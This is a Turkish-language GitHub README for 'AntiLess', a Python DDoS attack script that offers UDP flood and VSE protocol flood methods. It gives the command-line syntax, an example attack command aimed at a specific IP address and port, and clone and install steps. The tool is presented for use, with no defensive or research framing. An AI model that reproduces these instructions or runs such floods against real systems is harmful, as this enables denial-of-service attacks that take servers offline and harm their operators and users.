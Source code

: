 
<em><h5 align="center">AntiLess - DDoS Saldırı Scripti > 9 Method</h5></em>
<em><h5 align="center">(Programlanma dili - Python 3)</h5></em>


## Özellikler ve methodlar

* Layer4: 
  * UDP | UDP Flood Bypass
  * VSE | Protokol gönderimi (DDraceNetwork ✅)

* ⚙️ Tools - Nasıl kullanılır
`
python3 anti.py tools
`
  * ☢️  PING | Serverların pinlglerini ölçer.
  * ✔️ CHECK | Sitelerin durumunu checkler.

**Nasıl kullanılır?**

```shell
python3 anti.py <method> <ip:port> <threads> <duration> <config.json (Güçlendirme)>
```

```shell
ÖRNEK ÇIKTI: python3 anti.py VSE 62.106.84.67:8332 2 1000 config.json 100 600
```
```shell
not: ip - port - method ve diğer değişkenleri kendinize göre değiştirin.
```

**Gerekliler**

* [dnspython](https://github.com/rthalley/dnspython)
* [cfscrape](https://github.com/Anorov/cloudflare-scrape)
* [impacket](https://github.com/SecureAuthCorp/impacket)
* [requests](https://github.com/psf/requests)
* [Python3][python3]
* [Antiless](https://github.com/antilagg/Antiless)
* [icmplib](https://github.com/ValentinBELYN/icmplib)
* [certifi](https://github.com/certifi/python-certifi)
* [psutil](https://github.com/giampaolo/psutil)
* [yarl](https://github.com/aio-libs/yarl)
---

```shell
git clone https://github.com/antilagg/Antiless-DDoS.git
cd Antiless-DDoS
pip install -r moduller.txt
```

[python3]: https://python.org 'Python3'

---

